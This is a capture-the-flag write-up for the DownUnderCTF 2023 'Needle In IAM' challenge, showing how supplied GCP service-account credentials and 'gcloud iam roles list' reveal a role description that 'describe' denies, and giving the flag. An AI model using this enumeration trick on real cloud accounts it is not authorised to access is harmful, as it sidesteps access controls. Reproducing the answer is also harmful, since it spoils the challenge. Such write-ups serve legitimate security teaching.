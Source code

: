 # DownUnderCTF 2023

## Needle In IAM

> I've been told the flag I need is in description of this role, but I keep getting an error with the following command. Surely there's another way?
> 
> `gcloud iam roles describe ComputeOperator --project=<PROJECT>`
>
>  Author: BootlegSorcery@
>
> [`credentials.json`](credentials.json)

Tags: _misc_

## Solution
This is a `GCP` challenge. We are presented with credentials for a service account. So activating the credentials and calling the command to describe the iam role indeed gives us `permission denied`.

```bash
$ gcloud auth activate-service-account --key-file=credential.json

$ gcloud iam roles describe ComputeOperator --project=needle-in-iam
ERROR: (gcloud.iam.roles.describe) PERMISSION_DENIED: You don't have permission to get the role at projects/needle-in-iam/roles/ComputeOperator.
- '@type': type.googleapis.com/google.rpc.ErrorInfo
  domain: iam.googleapis.com
  metadata:
    permission: iam.roles.get
    resource: projects/needle-in-iam/roles/ComputeOperator
  reason: IAM_PERMISSION_DENIED
```

But what we can do is list all the roles:

```bash
$ gcloud iam roles list --project=needle-in-iam
---
description: Enables managing and configuring Azure Active Directory resources.
etag: BwYDv1zJ7TI=
name: projects/needle-in-iam/roles/ADAdmin
stage: GA
title: Azure Active Directory Administrator
---

...

description: DUCTF{D3scr1be_L1ST_Wh4ts_th3_d1fference_FDyIMbnDmX}
etag: BwYDv1xX9Y4=
name: projects/needle-in-iam/roles/ComputeOperator
stage: GA
title: Compute Operator
---
```

And there we get the flag in the role description.

Flag `DUCTF{D3scr1be_L1ST_Wh4ts_th3_d1fference_FDyIMbnDmX}`